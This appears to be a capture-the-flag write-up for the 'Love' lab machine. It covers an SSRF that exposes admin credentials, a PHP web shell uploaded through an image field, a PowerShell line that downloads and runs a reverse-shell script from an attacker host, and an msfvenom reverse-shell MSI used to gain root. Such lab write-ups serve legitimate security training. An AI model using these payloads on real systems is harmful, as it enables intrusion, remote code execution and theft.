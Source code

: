 # Love Writeup
### Keywords: PHP reverse shell, Server-side request forgery (SSRF)

#### Reconnaissance:

Let us start with our nmap scan and we get many open ports there. As it is a windows machine, we find bunch of ports to look for:

- HTTP/HTTPS on 80, 443, and 5000.
- SMB/RPC on 135/139/445.
- MySQL on 3306.
- WinRM is available if I find creds.
- Unknown services on 5040 and 7680.

After examining the TLS certificate we see that there are two domain present here, `love.htb` and `staging.love.htb` 

l**ove.htb** returns the same result i.e. a voting login page which is using php.

Try to bruteforce the login page with the help of sqlmap but noting happened.

When we go to **staging.love.htb** there we find a ‘FreeFileScanner’, it is a file scanning application.

#### Gain Access:

After moving here and there inside the application we go to `/beta.php`, where there’s a form that takes a url.

When I saw this application is scanning url so there is a possibility of SSRF(Server side request forgery).

<aside>
💡 Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.
In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.

</aside>

we tried entering `https://127.0.0.1`, but nothing returned. However, when we checked the service on 5000 by entering `http://127.0.0.1:5000`

And boom!! we get the admin credentials.

```
Vote Admin Creds admin:@LovelsInTheAir!!!!
```

#### User.txt:

Now we logged in as an admin inside the application, after exploring the application, we tried to add a voter in the database, and intercept this request in the BurpSuite.
We edit the data and put our php script there:

```php
<?php
system($_REQUEST[’cmd’]);
?>
```

Now change the file name .jpeg to .XYZ.php, let us check our payload shall we.

We go to `/images/xyz.php?cmd=dir` and we have **command Injection.**

<aside>
💡 If the user data is not strictly validated, an attacker can use crafted input to modify the code to be executed, and inject arbitrary code that will be executed by the server.

</aside>

Now let us try to grab a reverse shell on the machine:

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS:PORT_NO/revshell.ps1')"
```

and we get a shell after opening the user directory we get our user.txt flag.

#### Root.txt:

Now it is very simple from here, we already know that this is a windows machine so let try to reverse shell payload here for root directory.
##### Paylaod:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=PORT -f msi > payload.msi
```

Upload this payload on the machine, and listen the connection on your LPORT and after run the payload.msi file, we have a reverse shell on root server.

Go to root directory, and we get our root.txt flag. 

Hope you like this writeup, if you like it please show some love by follow me on:

GitHub: [https://github.com/mvaibhavm09](https://github.com/mvaibhavm09)

LinkedIn: [https://linkedin.com/in/mvaibhavm09](https://linkedin.com/in/mvaibhavm09)

Twitter:  [https://twitter.com/mvaibhavm09](https://twitter.com/mvaibhavm09) 

Happy Hacking :)
